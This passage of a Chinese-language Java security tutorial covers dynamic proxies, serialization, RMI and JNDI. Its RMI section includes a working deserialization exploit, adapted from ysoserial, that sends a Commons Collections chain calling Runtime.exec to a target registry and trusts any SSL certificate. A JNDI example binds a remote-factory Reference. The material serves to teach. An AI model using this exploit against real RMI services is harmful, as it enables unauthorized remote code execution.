                // 输出TestHelloWorld类对象
                System.out.println(helloWorldClass);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```
    
    运行结果

    {width=70%}

### 创建代理类实例

???+ example

    === "Proxy.newProxyInstance"

        ```java
        // 创建UnixFileSystem类实例
        FileSystem fileSystem = new UnixFileSystem();

        // 使用JDK动态代理生成FileSystem动态代理类实例
        FileSystem proxyInstance = (FileSystem) Proxy.newProxyInstance(
            FileSystem.class.getClassLoader(),// 指定动态代理类的类加载器
            new Class[]{FileSystem.class}, // 定义动态代理生成的类实现的接口
            new JDKInvocationHandler(fileSystem)// 动态代理处理类
        );
        ```

    === "Proxy.getProxyClass反射："

        ```java
        // 创建UnixFileSystem类实例
        FileSystem fileSystem = new UnixFileSystem();

        // 创建动态代理处理类
        InvocationHandler handler = new JDKInvocationHandler(fileSystem);

        // 通过指定类加载器、类实现的接口数组生成一个动态代理类
        Class proxyClass = Proxy.getProxyClass(
            FileSystem.class.getClassLoader(),// 指定动态代理类的类加载器
            new Class[]{FileSystem.class}// 定义动态代理生成的类实现的接口
        );

        // 使用反射获取Proxy类构造器并创建动态代理类实例
        FileSystem proxyInstance = (FileSystem) proxyClass.getConstructor(
            new Class[]{InvocationHandler.class}).newInstance(new Object[]{handler}
        );
        ```

### 动态代理添加方法调用日志

`UnixFileSystem`类实现了`FileSystem`接口，通过JDK动态代理的方式为`FileSystem`接口方法添加日志输出。
???+ note "code"

    === "FileSystem"

        ```java
        package cc.dynproxy;

        import java.io.File;
        import java.io.Serializable;

        public interface FileSystem extends Serializable{
            String[] list(File file);
        }
        ```

    === "UnixFileSystem"

        ```java
        package cc.dynproxy;

        import java.io.File;

        public class UnixFileSystem implements FileSystem {
            public String[] list(File file){
                System.out.println("正在执行[" + this.getClass().getName() + "]类的list方法，参数:[" + file + "]");

                return file.list();
            }
        }
        ```
    
    === "JDKInvocationHandler"

        ```java
        package cc.dynproxy;

        import java.io.Serializable;
        import java.lang.reflect.InvocationHandler;
        import java.lang.reflect.Method;

        public class JDKInvocationHandler implements InvocationHandler, Serializable {
            private final Object target;
            public JDKInvocationHandler(final Object target) {
                this.target = target;
            }

            @Override
            public Object invoke(final Object proxy, final Method method, final Object[] args) throws Throwable {
                if ("toString".equals(method.getName())) {
                    return method.invoke(target, args);
                }
                System.out.println("即将调用["+target.getClass().getName()+"."+method.getName()+"]");
                Object result = method.invoke(target, args);
                System.out.println("完成调用["+target.getClass().getName()+"."+method.getName()+"]");
                return result;
            }
        }
        ```
    
    === "FSProxyTest"

        ```java
        package cc.dynproxy;

        import java.io.File;
        import java.lang.reflect.Proxy;
        import java.util.Arrays;

        public class FSProxyTest {
            public static void main(String[] args) {
                FileSystem fs=new UnixFileSystem();
                FileSystem proxyInstance = (FileSystem) Proxy.newProxyInstance(
                        FileSystem.class.getClassLoader(),// 指定动态代理类的类加载器
                        new Class[]{FileSystem.class}, // 定义动态代理生成的类实现的接口
                        new JDKInvocationHandler(fs)// 动态代理处理类
                );

                System.out.println("动态代理生成的类名:" + proxyInstance.getClass());
                System.out.println("----------------------------------------------------------------------------------------");
                System.out.println("动态代理生成的类名toString:" + proxyInstance.toString());
                System.out.println("----------------------------------------------------------------------------------------");

                // 使用动态代理的方式UnixFileSystem方法
                String[] files = proxyInstance.list(new File("."));

                System.out.println("----------------------------------------------------------------------------------------");
                System.out.println("UnixFileSystem.list方法执行结果:" + Arrays.toString(files));
                System.out.println("----------------------------------------------------------------------------------------");

                boolean isFileSystem     = proxyInstance instanceof FileSystem;
                boolean isUnixFileSystem = proxyInstance instanceof UnixFileSystem;

                System.out.println("动态代理类[" + proxyInstance.getClass() + "]是否是FileSystem类的实例:" + isFileSystem);
                System.out.println("----------------------------------------------------------------------------------------");
                System.out.println("动态代理类[" + proxyInstance.getClass() + "]是否是UnixFileSystem类的实例:" + isUnixFileSystem);
                System.out.println("----------------------------------------------------------------------------------------");
            }
        }
        ```
    
运行结果

{width=70%}

### 动态代理生成的$ProxyXXX类代码分析

java.lang.reflect.Proxy类通过创建一个新的Java类(类名为com.sun.proxy.$ProxyXXX)实现无侵入的类方法代理功能。

动态代理生成出来的类有如下技术细节和特性：

1. 动态代理的必须是接口类，通过动态生成接口实现类来代理接口的方法调用(反射机制)。
2. 动态代理类由`java.lang.reflect.Proxy.ProxyClassFactory`创建。
3. `ProxyClassFactory`调用`sun.misc.ProxyGenerator`类生成该类的字节码，并调用`java.lang.reflect.Proxy.defineClass0()`方法将该类注册到JVM。
4. 该类继承于`java.lang.reflect.Proxy`并实现了需要被代理的接口类，因为`java.lang.reflect.Proxy`类实现了`java.io.Serializable`接口，所以被代理的类支持序列化/反序列化。
5. 该类实现了代理接口类，会通过`ProxyGenerator`动态生成接口类的所有方法，
6. 该类因为实现了代理的接口类，所以当前类是代理的接口类的实例(`proxyInstance instanceof FileSystem`为true)，但不是代理接口类的实现类的实例(`proxyInstance instanceof UnixFileSystem`为false)。
7. 该类方法中包含了被代理的接口类的所有方法，通过调用动态代理处理类(`InvocationHandler`)的invoke方法获取方法执行结果。
8. 该类代理的方式重写了`java.lang.Object`类的`toString`、`hashCode`、`equals`方法。
9. 如果动过动态代理生成了多个动态代理类，新生成的类名中的数字会自增，如`com.sun.proxy.$Proxy0/$Proxy1/$Proxy2`。

??? note "code"

    ```java
    package com.sun.proxy.$Proxy0;

    import java.io.File;
    import java.lang.reflect.InvocationHandler;
    import java.lang.reflect.Method;
    import java.lang.reflect.Proxy;
    import java.lang.reflect.UndeclaredThrowableException;

    public final class $Proxy0 extends Proxy implements FileSystem {

        private static Method m1;

    // 实现的FileSystem接口方法，如果FileSystem里面有多个方法那么在这个类中将从m3开始n个成员变量
        private static Method m3;

        private static Method m0;

        private static Method m2;

        public $Proxy0(InvocationHandler var1) {
            super(var1);
        }

        public final boolean equals(Object var1) {
            try {
                return (Boolean) super.h.invoke(this, m1, new Object[]{var1});
            } catch (RuntimeException | Error var3) {
                throw var3;
            } catch (Throwable var4) {
                throw new UndeclaredThrowableException(var4);
            }
        }

        public final String[] list(File var1) {
            try {
                return (String[]) super.h.invoke(this, m3, new Object[]{var1});
            } catch (RuntimeException | Error var3) {
                throw var3;
            } catch (Throwable var4) {
                throw new UndeclaredThrowableException(var4);
            }
        }

        public final int hashCode() {
            try {
                return (Integer) super.h.invoke(this, m0, (Object[]) null);
            } catch (RuntimeException | Error var2) {
                throw var2;
            } catch (Throwable var3) {
                throw new UndeclaredThrowableException(var3);
            }
        }

        public final String toString() {
            try {
                return (String) super.h.invoke(this, m2, (Object[]) null);
            } catch (RuntimeException | Error var2) {
                throw var2;
            } catch (Throwable var3) {
                throw new UndeclaredThrowableException(var3);
            }
        }

        static {
            try {
                m1 = Class.forName("java.lang.Object").getMethod("equals", Class.forName("java.lang.Object"));
                m3 = Class.forName("cc.dynproxy.FileSystem").getMethod("list", Class.forName("java.io.File"));
                m0 = Class.forName("java.lang.Object").getMethod("hashCode");
                m2 = Class.forName("java.lang.Object").getMethod("toString");
            } catch (NoSuchMethodException var2) {
                throw new NoSuchMethodError(var2.getMessage());
            } catch (ClassNotFoundException var3) {
                throw new NoClassDefFoundError(var3.getMessage());
            }
        }
    }
    ```

### 动态代理类实例序列化
[Dynamic Proxy Classes-Serialization](https://docs.oracle.com/javase/8/docs/technotes/guides/reflection/proxy.html#serial){target="_blank"}

## 1.10 Java类序列化

Java 序列化常被用于Socket传输。 在RMI(Java远程方法调用-Java Remote Method Invocation)和JMX(Java管理扩展-Java Management Extensions)服务中对象反序列化机制被强制性使用。在Http请求中也时常会被用到反序列化机制，如：直接接收序列化请求的后端服务、使用Base编码序列化字节字符串的方式传递等。

Java类实现`java.io.Serializable`(内部序列化)或`java.io.Externalizable`(外部序列化)接口即可被序列化。

=== "java.io.Serializable"

    `java.io.Serializable`是一个空接口，仅用于标记类可以被序列化。序列化机制会根据类的属性生成一个`serialVersionUID`，用于判断序列化对象是否一致。反序列化时如果`serialVersionUID`不一致会导致`InvalidClassException` 异常。如果未显式声明，则序列化运行时通过内置方法将计算默认 `serialVersionUID`值。

    ```java title="java.io.Serializable"
        public interface Serializable {
        }
    ```
    
    ??? note "code"

        ```java
        package cc.serial;

        import java.io.*;
        import java.util.Arrays;

        public class DeserializationTest implements Serializable {

            private String username;

            private String email;

            public DeserializationTest() {
                System.out.println("init...");
            }

            public String getUsername() {
                return username;
            }

            public void setUsername(String username) {
                this.username = username;
            }

            public String getEmail() {
                return email;
            }

            public void setEmail(String email) {
                this.email = email;
            }

            public static void main(String[] args) {
                ByteArrayOutputStream baos = new ByteArrayOutputStream();

                try {
                    // 创建DeserializationTest类，并类设置属性值
                    DeserializationTest t = new DeserializationTest();
                    t.setUsername("colemak");
                    t.setEmail("admin@javaweb.org");

                    // 创建Java对象序列化输出流对象
                    ObjectOutputStream out = new ObjectOutputStream(baos);

                    // 序列化DeserializationTest类
                    out.writeObject(t);
                    out.flush();
                    out.close();

                    // 打印DeserializationTest类序列化以后的字节数组，我们可以将其存储到文件中或者通过Socket发送到远程服务地址
                    System.out.println("DeserializationTest类序列化后的字节数组:" + Arrays.toString(baos.toByteArray()));

                    // 利用DeserializationTest类生成的二进制数组创建二进制输入流对象用于反序列化操作
                    ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());

                    // 通过反序列化输入流(bais),创建Java对象输入流(ObjectInputStream)对象
                    ObjectInputStream in = new ObjectInputStream(bais);

                    // 反序列化输入流数据为DeserializationTest对象
                    DeserializationTest test = (DeserializationTest) in.readObject();
                    System.out.println("用户名:" + test.getUsername() + ",邮箱:" + test.getEmail());

                    // 关闭ObjectInputStream输入流
                    in.close();
                } catch (IOException | ClassNotFoundException e) {
                    e.printStackTrace();
                }
            }

        }
        ```
        程序执行结果如下：
        {width=70%}

    `ObjectOutputStream`序列化类对象的主要流程是首先判断序列化的类是否重写了`writeObject`方法，如果重写了就调用对象自身的`writeObject`方法，序列化时会先写入类名信息，其次是写入成员变量信息(通过反射获取所有不包含被`transient`修饰的变量和值)。


=== "java.io.Externalizable"

    `java.io.Externalizable`接口定义了`writeExternal`和`readExternal`方法需要序列化和反序列化的类实现，其余的和`java.io.Serializable`并无差别。

    ```java title="java.io.Externalizable"
        public interface Externalizable extends java.io.Serializable {

        void writeExternal(ObjectOutput out) throws IOException;

        void readExternal(ObjectInput in) throws IOException, ClassNotFoundException;

        }
    ```

    ??? note "code"

        ```java
        package cc.serial;

        import java.io.*;
        import java.util.Arrays;

        public class ExternalizableTest implements java.io.Externalizable {

            private String username;
            private String email;

            public String getUsername() { return username; }
            public void setUsername(String username) { this.username = username; }
            public String getEmail() { return email; }
            public void setEmail(String email) { this.email = email; }

            @Override
            public void writeExternal(ObjectOutput out) throws IOException {
                out.writeObject(username);
                out.writeObject(email);
            }

            @Override
            public void readExternal(ObjectInput in) throws IOException, ClassNotFoundException {
                this.username = (String) in.readObject();
                this.email = (String) in.readObject();
            }

            public static void main(String[] args) {
                ByteArrayOutputStream baos = new ByteArrayOutputStream();

                try {
                    // 创建ExternalizableTest类，并类设置属性值
                    ExternalizableTest t = new ExternalizableTest();
                    t.setUsername("yz");
                    t.setEmail("admin@javaweb.org");

                    ObjectOutputStream out = new ObjectOutputStream(baos);
                    out.writeObject(t);
                    out.flush();
                    out.close();

                    // 打印ExternalizableTest类序列化以后的字节数组，我们可以将其存储到文件中或者通过Socket发送到远程服务地址
                    System.out.println("ExternalizableTest类序列化后的字节数组:" + Arrays.toString(baos.toByteArray()));
                    System.out.println("ExternalizableTest类反序列化后的字符串:" + new String(baos.toByteArray()));

                    // 利用DeserializationTest类生成的二进制数组创建二进制输入流对象用于反序列化操作
                    ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());

                    // 通过反序列化输入流创建Java对象输入流(ObjectInputStream)对象
                    ObjectInputStream in = new ObjectInputStream(bais);

                    // 反序列化输入流数据为ExternalizableTest对象
                    ExternalizableTest test = (ExternalizableTest) in.readObject();
                    System.out.println("用户名:" + test.getUsername() + ",邮箱:" + test.getEmail());

                    // 关闭ObjectInputStream输入流
                    in.close();
                } catch (IOException | ClassNotFoundException e) {
                    e.printStackTrace();
                }
            }

        }
        ```
        程序执行结果如下：
        {width=70%}
    
反序列化类对象时有如下限制：

- 被反序列化的类必须存在。
- `serialVersionUID`值必须一致。

!!! Warning "反序列化类对象不会调用该类构造方法"
    因为在反序列化创建类实例时使用了`sun.reflect.ReflectionFactory.newConstructorForSerialization`创建了一个反序列化专用的`Constructor`(反射构造方法对象)，其可以绕过构造方法创建类实例(前面章节讲`sun.misc.Unsafe`的时候我们提到了使用[`allocateInstance`](#AllocaInstance){target="_self"}方法也可以实现绕过构造方法创建类实例)。

**使用反序列化方式创建类实例**

??? note "code"

    ```java
    package cc.serial;

    import sun.reflect.ReflectionFactory;
    import java.lang.reflect.Constructor;

    public class ReflectionFactoryTest {
        public static void main(String[] args) {
            try{
                // 获取sun.reflect.ReflectionFactory对象
                ReflectionFactory factory = ReflectionFactory.getReflectionFactory();

                // 使用反序列化方式获取DeserializationTest类的构造方法
                Constructor constructor = factory.newConstructorForSerialization(
                        DeserializationTest.class, Object.class.getConstructor()
                );

                // 实例化DeserializationTest对象
                System.out.println(constructor.newInstance());
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```

    程序运行结果如下，观察到未调用构造函数输出"init"：

    {width=70%}

参考[不用构造方法也能创建对象](https://www.iteye.com/topic/850027){target="_blank"}

### 自定义序列化(writeObject)和反序列化(readObject)方法

实现了`java.io.Serializable`接口的类，可以定义如下方法(反序列化魔术方法)，这些方法将会在类序列化或反序列化过程中调用：

1. **private void writeObject(ObjectOutputStream oos),自定义序列化**。
2. **private void readObject(ObjectInputStream ois)，自定义反序列化**。
3. private void readObjectNoData()。
4. protected Object writeReplace()，写入时替换对象。
5. protected Object readResolve()。

具体的方法名定义在`java.io.ObjectStreamClass#ObjectStreamClass(java.lang.Class<?>)`，其中方法有详细的声明。

## 1.11 RMI

RMI(Remote Method Invocation)即Java远程方法调用，RMI用于构建分布式应用程序，RMI实现了Java程序之间跨JVM的远程通信。

<figure markdown="span">
  {width=85%}
  <figcaption>RMI架构</figcaption>
</figure>

RMI底层通讯采用了Stub(客户端)和Skeleton(服务端)机制，RMI调用远程方法的大致如下：

1. RMI客户端创建Stub(`sun.rmi.registry.RegistryImpl_Stub`)。
2. Stub将Remote对象传递给客户端远程引用层(`java.rmi.server.RemoteRef`)并创建`java.rmi.server.RemoteCall`对象。
3. RemoteCall序列化RMI服务名称、Remote对象。
4. 客户端的远程引用层传输序列化后的请求信息，通过Socket传到服务端远程引用层(`sun.rmi.server.UnicastServerRef`)。
5. 服务端的远程引用层将请求传递给Skeleton(`sun.rmi.registry.RegistryImpl_Skel#dispatch`)。
6. Skeleton调用RemoteCall反序列化RMI客户端传过来的信息。
7. Skeleton处理客户端请求：bind、list、lookup、rebind、unbind，如果是lookup则查找RMI服务名绑定的接口对象，序列化该对象并通过RemoteCall到客户端。
8. RMI客户端反序列化服务端结果，获取远程对象的引用。
9. RMI客户端调用远程方法，RMI服务端反射调用RMI服务实现类的对应方法并序列化执行结果返回给客户端。
10. RMI客户端反序列化RMI远程方法调用结果。

### RMI远程方法调用示例

=== "接口"

    ```java title="TestInt"
    package cc.rmi;

    import java.rmi.Remote;
    import java.rmi.RemoteException;

    /**
     * RMI测试接口
     */
    public interface TestInt extends Remote {
        String test() throws RemoteException;
    }
    ```

    ``` java title="TestImpl"
    package cc.rmi;

    import java.rmi.RemoteException;
    import java.rmi.server.UnicastRemoteObject;

    public class TestImpl extends UnicastRemoteObject implements TestInt {

        private static final long serialVersionUID = 1L;

        protected TestImpl() throws RemoteException {
            super();
        }

        @Override
        public String test() throws RemoteException {
            return "Hello RMI~";
        }

    }
    ```

=== "服务端"

    ```java title="RMIServerTest"
    package cc.rmi;

    import java.rmi.Naming;
    import java.rmi.registry.LocateRegistry;

    public class RMIServerTest {

        // RMI服务器IP地址
        public static final String RMI_HOST = "127.0.0.1";

        // RMI服务端口
        public static final int RMI_PORT = 9879;

        // RMI服务名称
        public static final String RMI_NAME = "rmi://" + RMI_HOST + ":" + RMI_PORT + "/test";

        public static void main(String[] args) {
            try {
                // 注册RMI端口
                LocateRegistry.createRegistry(RMI_PORT);

                // 绑定Remote对象
                Naming.bind(RMI_NAME, new TestImpl());

                System.out.println("RMI服务启动成功,服务地址:" + RMI_NAME);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```
    运行结果：

    {width=50% loading=lazy}

=== "客户端"

    ```java title="RMIClientTest"
    package cc.rmi;

    import java.rmi.Naming;

    import static cc.rmi.RMIServerTest.RMI_NAME;

    public class RMIClientTest {

        public static void main(String[] args) {
            try {
                // 查找远程RMI服务
                TestInt rt = (TestInt) Naming.lookup(RMI_NAME);

                // 调用远程接口RMITestInterface类的test方法
                String result = rt.test();

                // 输出RMI方法调用结果
                System.out.println(result);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```
    运行结果：

    {width=50% loading=lazy}

### RMI 反序列化漏洞

RMI通信中所有的对象都是通过Java序列化传输的，因此RMI存在反序列化漏洞。攻击者可以通过构造恶意序列化数据，触发服务端反序列化漏洞，导致服务端远程代码执行。具体利用链可参考[《Apache Common Collections反序列化》](/Sec/Web/Deserial/ACC/#2-cc1-lazymap)

??? node "PoC"

    ```java
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.LazyMap;

    import javax.net.ssl.SSLContext;
    import javax.net.ssl.SSLSocketFactory;
    import javax.net.ssl.TrustManager;
    import javax.net.ssl.X509TrustManager;
    import java.io.IOException;
    import java.lang.reflect.Constructor;
    import java.lang.reflect.InvocationHandler;
    import java.lang.reflect.Proxy;
    import java.net.Socket;
    import java.rmi.ConnectIOException;
    import java.rmi.Remote;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    import java.rmi.server.RMIClientSocketFactory;
    import java.security.cert.X509Certificate;
    import java.util.HashMap;
    import java.util.Map;


    /**
     * RMI反序列化漏洞利用，修改自ysoserial的RMIRegistryExploit：https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/RMIRegistryExploit.java
     *
     * @author yz
     */
    public class RMIExploit {

        // 定义AnnotationInvocationHandler类常量
        public static final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        /**
            * 信任SSL证书
            */
        private static class TrustAllSSL implements X509TrustManager {

            private static final X509Certificate[] ANY_CA = {};

            public X509Certificate[] getAcceptedIssuers() {
                return ANY_CA;
            }

            public void checkServerTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

            public void checkClientTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

        }

        /**
            * 创建支持SSL的RMI客户端
            */
        private static class RMISSLClientSocketFactory implements RMIClientSocketFactory {

            public Socket createSocket(String host, int port) throws IOException {
                try {
                    // 获取SSLContext对象
                    SSLContext ctx = SSLContext.getInstance("TLS");

                    // 默认信任服务器端SSL
                    ctx.init(null, new TrustManager[]{new TrustAllSSL()}, null);

                    // 获取SSL Socket连接工厂
                    SSLSocketFactory factory = ctx.getSocketFactory();

                    // 创建SSL连接
                    return factory.createSocket(host, port);
                } catch (Exception e) {
                    throw new IOException(e);
                }
            }
        }

        /**
            * 使用动态代理生成基于InvokerTransformer/LazyMap的Payload
            *
            * @param command 定义需要执行的CMD
            * @return Payload
            * @throws Exception 生成Payload异常
            */
        private static InvocationHandler genPayload(String command) throws Exception {
            // 创建Runtime.getRuntime.exec(cmd)调用链
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}
                    ),
                    new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}
                    ),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{command})
            };

            // 创建ChainedTransformer调用链对象
            Transformer transformerChain = new ChainedTransformer(transformers);

            // 使用LazyMap创建一个含有恶意调用链的Transformer类的Map对象
            final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

            // 获取AnnotationInvocationHandler类对象
            Class clazz = Class.forName(ANN_INV_HANDLER_CLASS);

            // 获取AnnotationInvocationHandler类的构造方法
            Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

            // 设置构造方法的访问权限
            constructor.setAccessible(true);

            // 实例化AnnotationInvocationHandler，
            // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, lazyMap);
            InvocationHandler annHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

            // 使用动态代理创建出Map类型的Payload
            final Map mapProxy2 = (Map) Proxy.newProxyInstance(
                    ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annHandler
            );

            // 实例化AnnotationInvocationHandler，
            // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, mapProxy2);
            return (InvocationHandler) constructor.newInstance(Override.class, mapProxy2);
        }

        /**
            * 执行Payload
            *
            * @param registry RMI Registry
            * @param command  需要执行的命令
            * @throws Exception Payload执行异常
            */
        public static void exploit(final Registry registry, final String command) throws Exception {
            // 生成Payload动态代理对象
            Object payload = genPayload(command);
            String name    = "test" + System.nanoTime();

            // 创建一个含有Payload的恶意map
            Map<String, Object> map = new HashMap();
            map.put(name, payload);

            // 获取AnnotationInvocationHandler类对象
            Class clazz = Class.forName(ANN_INV_HANDLER_CLASS);

            // 获取AnnotationInvocationHandler类的构造方法
            Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

            // 设置构造方法的访问权限
            constructor.setAccessible(true);

            // 实例化AnnotationInvocationHandler，
            // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, map);
            InvocationHandler annHandler = (InvocationHandler) constructor.newInstance(Override.class, map);

            // 使用动态代理创建出Remote类型的Payload
            Remote remote = (Remote) Proxy.newProxyInstance(
                    ClassLoader.getSystemClassLoader(), new Class[]{Remote.class}, annHandler
            );

            try {
                // 发送Payload
                registry.bind(name, remote);
            } catch (Throwable e) {
                e.printStackTrace();
            }
        }

        public static void main(String[] args) throws Exception {
            if (args.length == 0) {
                // 如果不指定连接参数默认连接本地RMI服务
                args = new String[]{"127.0.0.1", String.valueOf(9879), "calc"};
            }

            // 远程RMI服务IP
            final String host = args[0];

            // 远程RMI服务端口
            final int port = Integer.parseInt(args[1]);

            // 需要执行的系统命令
            final String command = args[2];

            // 获取远程Registry对象的引用
            Registry registry = LocateRegistry.getRegistry(host, port);

            try {
                // 获取RMI服务注册列表(主要是为了测试RMI连接是否正常)
                String[] regs = registry.list();

                for (String reg : regs) {
                    System.out.println("RMI:" + reg);
                }
            } catch (ConnectIOException ex) {
                // 如果连接异常尝试使用SSL建立SSL连接,忽略证书信任错误，默认信任SSL证书
                registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
            }

            // 执行payload
            exploit(registry, command);
        }

    }
    ```
    运行结果：

    {loading=lazy}

### RMI-JRMP反序列化漏洞

JRMP接口的两种常见实现方式：

1. JRMP协议(Java Remote Message Protocol)，RMI专用的Java远程消息交换协议。
2. IIOP协议(Internet Inter-ORB Protocol) ，基于 CORBA 实现的对象请求代理协议。

由于RMI数据通信大量的使用了Java的对象反序列化，所以在使用RMI客户端去攻击RMI服务端时需要特别小心，如果本地RMI客户端刚好符合反序列化攻击的利用条件，那么RMI服务端返回一个恶意的反序列化攻击包可能会导致我们被反向攻击。

我们可以通过和RMI服务端建立Socket连接并使用RMI的JRMP协议发送恶意的序列化包，RMI服务端在处理JRMP消息时会反序列化消息对象，从而实现RCE。此外，采用Socket协议不会反序列化RMI服务器端的数据，所以不用担心本地被RMI服务端通过构建恶意数据包攻击。


参考[PoC](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPClient.java){target="_blank"}

## 1.12 JNDI

JNDI(Java Naming and Directory Interface,Java命名和目录接口)是SUN公司提供的一种标准的Java命名系统接口，JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。目录服务是命名服务的一种自然扩展。

JNDI(Java Naming and Directory Interface)是一个应用程序设计的API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，类似JDBC都是构建在抽象层上。现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。

JNDI可访问的现有的目录及服务有：
DNS、XNam 、Novell目录服务、LDAP(Lightweight Directory Access Protocol轻型目录访问协议)、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、RMI、DSML v1&v2、NIS。


### InitialContext

```java title="构造方法"
InitialContext() 
// 构建一个初始上下文。  
InitialContext(boolean lazy) 
// 构造一个初始上下文，并选择不初始化它。  
InitialContext(Hashtable<?,?> environment) 
// 使用提供的环境构建初始上下文。 
```

```java title="常用方法"
bind(Name name, Object obj) 
	// 将名称绑定到对象。 
list(String name) 
	// 枚举在命名上下文中绑定的名称以及绑定到它们的对象的类名。
lookup(String name) 
	// 检索命名对象。 
rebind(String name, Object obj) 
	// 将名称绑定到对象，覆盖任何现有绑定。 
unbind(String name) 
	// 取消绑定命名对象。 
```
### Reference

该类表示对在命名/目录系统外部找到的对象的引用。提供了JNDI中类的引用功能，比如在某些目录服务中直接引用远程的Java对象。

```java title="构造方法"
Reference(String className) 
	// 为类名为“className”的对象构造一个新的引用。  
Reference(String className, RefAddr addr) 
	// 为类名为“className”的对象和地址构造一个新引用。  
Reference(String className, RefAddr addr, String factory, String factoryLocation) 
	// 为类名为“className”的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。  
Reference(String className, String factory, String factoryLocation) 
	// 为类名为“className”的对象以及对象工厂的类名和位置构造一个新引用。  
```

```java title="常用方法"
void add(int posn, RefAddr addr) 
	将地址添加到索引posn的地址列表中。  
void add(RefAddr addr) 
	将地址添加到地址列表的末尾。  
void clear() 
	从此引用中删除所有地址。  
RefAddr get(int posn) 
	检索索引posn上的地址。  
RefAddr get(String addrType) 
	检索地址类型为“addrType”的第一个地址。  
Enumeration<RefAddr> getAll() 
	检索本参考文献中地址的列举。  
String getClassName() 
	检索引用引用的对象的类名。  
String getFactoryClassLocation() 
	检索此引用引用的对象的工厂位置。  
String getFactoryClassName() 
	检索此引用引用对象的工厂的类名。    
Object remove(int posn) 
	从地址列表中删除索引posn上的地址。  
int size() 
	检索此引用中的地址数。  
String toString() 
	生成此引用的字符串表示形式。  
```
??? example

    ```java
    package com.rmi.demo;

    import com.sun.jndi.rmi.registry.ReferenceWrapper;


    import javax.naming.NamingException;
    import javax.naming.Reference;
    import java.rmi.AlreadyBoundException;
    import java.rmi.RemoteException;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;

    public class jndi {
        public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
            String url = "http://127.0.0.1:8080"; 
            Registry registry = LocateRegistry.createRegistry(1099);
            Reference reference = new Reference("test", "test", url);
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.bind("aa",referenceWrapper);


        }
    }
    ```
    Reference并没有实现Remote接口也没有继承 UnicastRemoteObject类，RMI需要将类注册到Registry需要实现Remote和继承UnicastRemoteObject类，所以这里还需要调用ReferenceWrapper进行封装。
    
### JNDI 目录服务

访问JNDI目录服务时会通过预先设置好环境变量访问对应的服务， 如果创建JNDI上下文(Context)时未指定环境变量对象，JNDI会自动搜索系统属性(`System.getProperty()`)、`applet` 参数和应用程序资源文件(`jndi.properties`)

???+ example

    ```java
    // 创建环境变量对象
    Hashtable env = new Hashtable();

    // 设置JNDI初始化工厂类名
    env.put(Context.INITIAL_CONTEXT_FACTORY, "类名");

    // 设置JNDI提供服务的URL地址
    env.put(Context.PROVIDER_URL, "url");

    // 创建JNDI目录服务对象
    DirContext context = new InitialDirContext(env);
    ```

`Context.INITIAL_CONTEXT_FACTORY`(初始上下文工厂的环境属性名称)指的是JNDI服务处理的具体类名称，如：DNS服务可以使用`com.sun.jndi.dns.DnsContextFactory`类来处理，JNDI上下文工厂类必须实现`javax.naming.spi.InitialContextFactory`接口，通过重写`getInitialContext`方法来创建服务。

1. **JNDI DNS服务**：
    JNDI支持访问DNS服务，注册环境变量时设置JNDI服务处理的工厂类为`com.sun.jndi.dns.DnsContextFactory`即可。
2. **JNDI-RMI远程方法调用**
    RMI的服务处理工厂类是:`com.sun.jndi.rmi.registry.RegistryContextFactory`
3. **JNDI-LDAP**
   LDAP的服务处理工厂类是:`com.sun.jndi.ldap.LdapCtxFactory`
4. **JNDI-DataSource**
   JNDI连接数据源比较特殊，Java目前不提供内置的实现方法，提供数据源服务的多是Servlet容器，以Tomcat为例，参考[Tomcat JNDI Datasource](https://tomcat.apache.org/tomcat-8.0-doc/jndi-datasource-examples-howto.html){target="_blank"}

**JNDI-协议转换**

如果`JNDI`在`lookup`时没有指定初始化工厂名称，会自动根据协议类型动态查找内置的工厂类然后创建处理对应的服务请求。

`JNDI`默认支持自动转换的协议有：

| 协议名称             | 协议URL        | Context类                                               |
| -------------------- | -------------- | ------------------------------------------------------- |
| DNS协议              | `dns://`       | `com.sun.jndi.url.dns.dnsURLContext`                    |
| RMI协议              | `rmi://`       | `com.sun.jndi.url.rmi.rmiURLContext`                    |
| LDAP协议             | `ldap://`      | `com.sun.jndi.url.ldap.ldapURLContext`                  |
